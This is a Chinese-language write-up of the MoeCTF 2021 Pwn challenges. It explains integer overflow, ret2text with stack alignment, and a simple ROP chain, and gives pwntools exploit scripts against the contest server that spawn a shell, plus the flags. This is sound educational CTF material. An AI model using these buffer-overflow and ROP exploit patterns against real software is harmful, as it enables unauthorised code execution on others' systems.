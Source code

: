 # MoeCTF 2021 WP

## 前言

第一次打MoeCTF，里面的人很好，题的质量又高，玩的很开心，期待下次再来。
只学了Pwn，所以就只写了 Pwn 的WP。

https://moectf.online/

---

[TOC]

---

## PWN

### test_your_nc

入门题，把 nc pwn.blackbird.wang 9500 复制到有 nc 工具终端，即可拿到权限。

```
moectf{enjoy_the_netcat_and_the_shell}
```

> http://netcat.sourceforge.net/
>
> Netcat is a featured networking utility which reads and writes data across network connections, using the TCP/IP protocol.
> It is designed to be a reliable "back-end" tool that can be used directly or easily driven by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need and has several interesting built-in capabilities.
>
> nc 的作用
>
> （1）实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口<br>（2）端口的扫描，nc可以作为client发起TCP或UDP连接<br>（3）机器之间传输文件<br>（4）机器之间网络测速

### Int_overflow

考察 整数溢出，unsigned int 和 int 在计算机中储存的方式

```c
  unsigned int v4;
  __isoc99_scanf("%u", &v4);
  if ( (v4 & 0x80000000) == 0 )
  {
    puts("<0 ?");
  }
  else
  {
    puts("But I want <0 now!");
    printf("%d\n", v4);
    if ( v4 )
    {
      puts("You know int overflow!");
      sy stem("/bin/sh");
    }
    else
    {
      puts(">0 ?");
    }
  }
```

首先看程序，输入一个 unsigned int 给 v4，和 0x80000000 即（0b10000000000000000000000000000000）做与运算，就是检查v4作为 int 是否为负数，接着判断 v4 作为unsigned int 是否大于0，大于0即可拿到权限

由于计算机中所有数字都是用补码储存，输入负数（大于 - 2^31）用补码表示，第32位（符号位）一定为1；输入大于2^31，小于2^32的正数，第32位也为1，即可通过第一个check，而unsigned int 一定是 ≥0 的，即可通过第二个check。

解的范围 [-2147483648, -1] ∪ [2147483648, 4294967295]

> 在二进制中<br>int 类型由1个符号位和31个数值位组成，当符号位为1时，为负数<br>unsigned int 类型由32个数值位组成，一定大于或等于0

```
moectf{y0ul0v3m3m3l0v3y0u_1nt0v3rfl0w}
```

### ret2text_ez

考察 栈溢出利用 - ret2text

#### 原理

在运行一个函数的时候，为了隔离两个函数，都会开辟一个内存空间，作为新的栈帧给函数使用，其中栈帧底部（即帧基）储存着**函数返回地址**，函数返回地址一般指向着该函数在上一个函数的位置下方，用于执行完该函数后**跳回上一个函数**。当程序读取数据时，可读取的数据长度大于该参数的长度，会出现栈溢出，可能导致函数返回地址被覆盖，攻击者可改写此地址让程序跳转到可利用的地方进行攻击。
![image20210921115005657.png](https://humoooor.cn/upload/2021/10/image-20210921115005657-e66e7195f67b4b448eed77ec7f0f047d.png)
![image20210921115009605.png](https://humoooor.cn/upload/2021/10/image-20210921115009605-20e814b96c9b42b5bfe8e4f77f82d100.png)
![image20210921115131915.png](https://humoooor.cn/upload/2021/10/image-20210921115131915-1b551f4f338a4a9c8987c99e95c2a7e5.png)

在该题中使用 read函数读取数据放入buf数组中，但是buf长度为32，而read最多读取0x32（即十进制的50），进入函数的栈中可以看到，返回地址距离buf数组很近，只要将返回地址覆盖成backdoor()函数的地址，即可拿到权限

#### exp

```python
from pwn import *
p = remote("pwn.blackbird.wang", 9509)
backdoor = 0x401196

payload = b'a' * (32 + 8) + p32(backdoor)
p.send(payload)
p.interactive()
```

```
moectf{1_l0v3_pwn!!!I'll_ak_pwn}
```

### ret2text

考察 ret2text 和 栈的字节对齐

#### 原理

> 栈的字节对齐，实际是指栈顶指针必须须是16字节的整数倍。栈对齐帮助在尽可能少的内存访问周期内读取数据，不对齐堆栈指针可能导致严重的性能下降。
>
> 在ubuntu18及以上的版本，64位的程序若包含了system(“/bin/sh”)，就需要考虑栈的字节对齐，如果数据没有对齐的话，就无法正确执行。
>
> 因此在覆盖所用的函数地址前，要再任意加上一个函数返回地址

```c
char s[10];
read(s, 0, 0x100uLL);
```

![image20210921150047342.png](https://humoooor.cn/upload/2021/10/image-20210921150047342-d5b7d2d460644a609936a4077fdb7e35.png)
![image20210921155930857.png](https://humoooor.cn/upload/2021/10/image-20210921155930857-c469c9b50d7946d2b95e32d116f83c06.png)

#### exp

```python
from pwn import *
p = remote('pwn.blackbird.wang', 9502)
backdoor = 0x400687
ret = 0x400699
payload = b'a' * (10 + 8) + p64(ret) + p64(backdoor)
p.send(payload)
p.interactive()
```

```
moectf{ret2txt_tr4v3l2she11}
```

### Int_overflow_revenge

考察 溢出

利用点在 sell_watermelon() 函数里

![image20210922110502300.png](https://humoooor.cn/upload/2021/10/image-20210922110502300-62ed9223160c4568a5896031f1e1952d.png)

#### exp

```python
from pwn import *
p = remote('pwn.blackbird.wang', 9508)
# 这里是输入%d，需要转换成十进制
backdoor = format(0x8049236, 'd') 
# 第二个输入131是要使上面的 scanf() 能够写到函数返回地址
payload = '0\n' + '131\n' + '1\n' + backdoor + '\n'
p.send(payload)
p.interactive()
```

```
moectf{the_watemelon_is_permitted_to_be_grown_up}
```

### babyrop

考察简单的rop

用IDA看，只有 system 函数，backdoor 是没用的，因此要用 gets 函数把 ”/bin/sh“ 写到可读写段，如 bss 段

#### 思路

先把 gets 的返回地址覆盖成 gets_plt 地址，把 gets_plt 的返回地址覆盖成 main 的地址，然后写入 bss 的地址，写入 '/bin/sh' 字符串，然后程序返回到 main 中，将这一次的 gets 的返回地址覆盖成 system_plt，读 bss 段，即可拿到shell

#### exp

```python
from pwn import *
#p = process('./babyrop')
p = remote('pwn.blackbird.wang', 9504)
#gdb.attach(p, 'b *0x08048540\nc \n')
get_plt = 0x08048380
main = 0x0804854D
bss = 0x804a028
payload = b'a' * (36 + 8) + p32(get_plt) + p32(main) + p32(bss) + b'\n' + b'/bin/sh\n'
p.send(payload)

system = 0x080483A0
payload = b'a' * (36 + 8) + p32(system) + p32(0) + p32(bss)
p.sendline(payload)
p.interactive()
```
```
moectf{do_you_l1k3_vtuber_too?}
```